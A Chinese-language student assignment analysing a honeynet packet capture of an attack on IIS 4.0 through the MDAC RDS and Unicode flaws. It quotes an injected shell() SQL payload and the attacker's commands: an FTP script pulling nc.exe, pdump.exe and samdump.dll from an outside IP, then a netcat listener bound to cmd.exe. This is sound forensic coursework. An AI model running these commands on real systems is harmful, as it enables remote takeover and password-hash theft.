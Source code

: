      ![image-20200415124447795](F:\liangx\研一课程\研一下\网络攻防\作业\7windows操作系统安全攻防\img\2-2-1.png)

   - 接下来，又很明显地看到140号数据包中`GET /msadc/msadcs.dll HTTP/1.0` ，经过对Windows常见漏洞的了解可看出这是针对MSADCS RDS 弱点漏洞的攻击，攻击者可以远程执行用户系统的命令，并以设备用户的身份运行。

   - 随后又可发现大量含 `msadcs.dll`的`POST`请求包，选择一个进行TCP流跟踪，发现了惊天大秘密，如图

     ![image-20200415125131830](F:\liangx\研一课程\研一下\网络攻防\作业\7windows操作系统安全攻防\img\2-2-2.png)

     可分析出攻击者在获得了靶机权限后，执行了`Select * from Customers where City='|shell("cmd /c echo get nc.exe >> ftpcom")|'.......driver={Microsoft Access Driver (*.mdb)}...;`进行SQL注入，如此更能确定针对MSADCS RDS 弱点漏洞的SQL注入攻击。

   - 查看了一些含 `msadcs.dll`的`POST`请求包的tcp流跟踪后，发现几乎每个都有`boundary=!ADM!ROX!YOUR!WORLD!;`这么一句话，经查资料，这个特征字符串是由rain forest puppy 编写的 msadc(2).pl渗透攻击代码所发起的。

   - 至此，攻击者通过查点确认了目标系统提供 Web 服务的是臭名昭著的 IIS v4.0，并存在
     Unicode 和 MDAC RDS 安全漏洞，可进行进一步渗透攻击。

   ------

   

2. **攻击者如何使用这个破解工具进入并控制了系统？**

   - 观察到每次 RDS 渗透攻击间的间隔时间均为 6秒左右，可以推测攻击者是预先写好需执
     行的 shell 指令列表，然后由 msadc(2).pl 渗透攻击工具一起执行。

   - 可以发现攻击者并没有成功，之后便又开始转向 Unicode 攻击，每条请求间隔时间大概在 10-12 秒，意味着指令可能是由攻击者手工输入的，如图：

     ![image-20200415140101633](F:\liangx\研一课程\研一下\网络攻防\作业\7windows操作系统安全攻防\img\2-2-3.png)

     ![image-20200415140334840](F:\liangx\研一课程\研一下\网络攻防\作业\7windows操作系统安全攻防\img\2-2-4.png)

   - 提取出这些指令：

     ```
     SESSION:1874-80 "copy C:\winnt\system32\cmd.exe cmd1.exe"
     SESSION:1875-80 "cmd1.exe /c open 213.116.251.162 >ftpcom"
     SESSION:1876-80 "cmd1.exe /c echo johna2k >>ftpcom"
     SESSION:1877-80 "cmd1.exe /c echo haxedj00 >>ftpcom"
     SESSION:1879-80 "cmd1.exe /c echo get nc.exe >>ftpcom"
     SESSION:1880-80 "cmd1.exe /c echo get pdump.exe >>ftpcom"
     SESSION:1881-80 "cmd1.exe /c echo get samdump.dll >>ftpcom"
     SESSION:1882-80 "cmd1.exe /c echo quit >>ftpcom"
     SESSION:1885-80 "cmd1.exe /c ftp -s:ftpcom"
     SESSION:1887-80 "cmd1.exe /c nc -l -p 6969 -e cmd1.exe"
     ```

     蜜罐主机连接 213.116.251.162 并下载了所指定的这些文件，并通过 nc构建其一个远程 shell 通道。接着，攻击者连接 6969 端口，获得了访问权，并进入了交互式控制阶段。

   ------

   

3. **当攻击者获得系统的访问权后做了什么？**

   - 查看SESSION:1887-80之后的数据包，跟踪之后包的tcp流，如图：

     ![image-20200415144146490](F:\liangx\研一课程\研一下\网络攻防\作业\7windows操作系统安全攻防\img\2-2-5.png)
